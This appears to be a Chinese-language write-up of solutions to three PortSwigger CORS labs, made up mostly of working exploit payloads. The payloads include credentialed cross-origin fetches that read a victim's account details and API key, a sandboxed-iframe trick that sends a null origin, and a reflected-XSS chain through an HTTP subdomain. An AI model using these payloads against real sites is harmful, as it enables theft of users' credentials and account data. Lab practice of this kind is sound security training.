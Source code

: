 ```yaml
---
title: PortSwigger Cross-origin resource sharing (CORS)
description: PortSwigger Cross-origin resource sharing (CORS)
last_update:
  date: "2025-08-26T08:00:00+08:00"
---
```


## Lab: CORS vulnerability with basic origin reflection

| Dimension | Description                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#server-generated-acao-header-from-client-specified-origin-header |
| Lab       | https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack                               |

在 exploit-server 構造

```html
<script>
  fetch(
    "https://0ae00026030c463780b68f5900490011.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

## Lab: CORS vulnerability with trusted null origin

| Dimension | Description                                                                  |
| --------- | ---------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#whitelisted-null-origin-value      |
| Lab       | https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack |

在 exploit-server 構造

```html
<iframe
  id="evilIframe"
  sandbox="allow-scripts allow-top-navigation allow-forms"
></iframe>
<script>
  const inlineHTML = `
<div>
  <script>
    fetch('https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/accountDetails', {
      credentials : 'include'
    })
      .then(res => res.json())
      .then(json => {
        document.getElementById("hello").value = json.apikey;
        document.getElementById("submitSolution").submit();
      })
  <\/script>
  <form
    id="submitSolution"
    action="https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/submitSolution"
    method="POST"
    enctype="application/x-www-form-urlencoded"
  >
    <input id="hello" name="answer" />
  </form>
</div>`;
  document.getElementById("evilIframe").setAttribute("srcdoc", inlineHTML);
</script>
```

中間有遇到一個小問題，在 `<script>` 標籤內的 template literal 定義 `<script>`

```html
<script>
  // 這樣會出錯
  const html = `<script>alert(1);</script>`;
</script>

<script>
  // 這樣就沒問題
  const html = `<script>alert(1);<\/script>`;
</script>
```

## Lab: CORS vulnerability with trusted insecure protocols

| Dimension | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors |
| Lab       | https://portswigger.net/web-security/cors/lab-breaking-https-attack                |

在商品詳細頁看到

```html
<script>
  const stockCheckForm = document.getElementById("stockCheckForm");
  stockCheckForm.addEventListener("submit", function (e) {
    const data = new FormData(stockCheckForm);
    window.open(
      "http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=4&storeId=" +
        data.get("storeId"),
      "stock",
      "height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no",
    );
    e.preventDefault();
  });
</script>
```

針對 productId 跟 storeId 玩了一陣子，發現 productId 有 Reflected XSS，可以構造

```
http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=<script>alert(1)</script>&storeId=1
```

接下來應該就明朗了，我可以在 subdomain 執行任何程式碼，就可以戳 API 拿 Token 然後上傳答案，構造跟 [第一題](#lab-cors-vulnerability-with-basic-origin-reflection) 一樣的 HTML

```html
<script>
  fetch(
    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

然後整段塞到 ?productId= 後面，記得要把 `\n` 拿掉，可以用

```js
console.log(
  `<script>
  fetch(
    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>`.replaceAll("\n", ""),
);
```

之後在 exploit-server 構造

```
HTTP/1.1 301 Moved Permanently
Location: http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=<script>  fetch(    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",    { credentials: "include" },  )    .then((res) => res.json())    .then((json) => {      alert(JSON.stringify(json));      document.getElementById("hello").value = json.apikey;      document.getElementById("submitSolution").submit();    });</script><form  id="submitSolution"  action="/submitSolution"  method="POST"  enctype="application/x-www-form-urlencoded">  <input id="hello" name="answer" /></form>&storeId=0
```

## 小結

CORS 的 Lab 只有三題，而且最後一題因為沒辦法 MitM，所以最終還是要回到 XSS，有基本的 XSS 觀念，再來解最後一題會比較快

## 參考資料

- https://portswigger.net/web-security/cors
